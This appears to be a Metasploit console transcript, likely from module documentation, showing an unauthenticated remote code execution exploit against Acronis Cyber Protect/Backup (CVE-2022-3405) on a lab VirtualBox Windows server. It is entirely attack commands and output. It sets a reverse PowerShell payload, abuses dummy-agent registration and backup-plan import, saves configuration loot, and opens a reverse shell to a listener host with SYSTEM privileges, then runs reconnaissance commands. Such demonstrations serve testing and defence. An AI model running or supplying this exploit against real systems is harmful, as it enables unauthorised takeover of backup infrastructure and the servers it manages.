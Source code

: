 ```msf
target => 1
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set payload cmd/windows/reverse_powershell
payload => cmd/windows/reverse_powershell
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] Acronis Cyber Protect/Backup 12.5.14330 - VULNERABLE
[*] Retrieve first online target registered at the Acronis Cyber Protect/Backup appliance.
[+] Configuration details are successfully saved in json format to /root/.msf4/loot/20241023124641_default_192.168.201.6_acronis.cyber.pr_949551.bin
[*] Found online target matching your target setting Windows Command.
[+] hostId: 28BAFD9F-F9F1-481F-A970-1A6ED70736AC
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.0CA16CD4-1C6D-44D2-BEF1-B9F146005EE1@28BAFD9F-F9F1-481F-A970-1A6ED70736AC.disks
[*] type: machine
[*] hostname: WIN-BJDNH44EEDB
[*] IP: 192.168.201.5
[*] OS: Microsoft Windows Server 2019 Standard
[*] ARCH: windows
[*] ONLINE: true
[*] Import backup plan with payload for target with hostId: 28BAFD9F-F9F1-481F-A970-1A6ED70736AC.
[*] Executing Windows Command with payload cmd/windows/reverse_powershell
[+] Backup plan is successful removed.
[*] Command shell session 23 opened (192.168.201.8:4444 -> 192.168.201.5:49780) at 2024-10-23 12:46:51 +0000


Shell Banner:
Microsoft Windows [Version 10.0.17763.107]
-----


C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>systeminfo
systeminfo

Host Name:                 WIN-BJDNH44EEDB
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-70000-00000-AA946
Original Install Date:     1/26/2023, 10:05:52 AM
System Boot Time:          10/23/2024, 2:44:05 PM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 13 GenuineIntel ~2307 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
```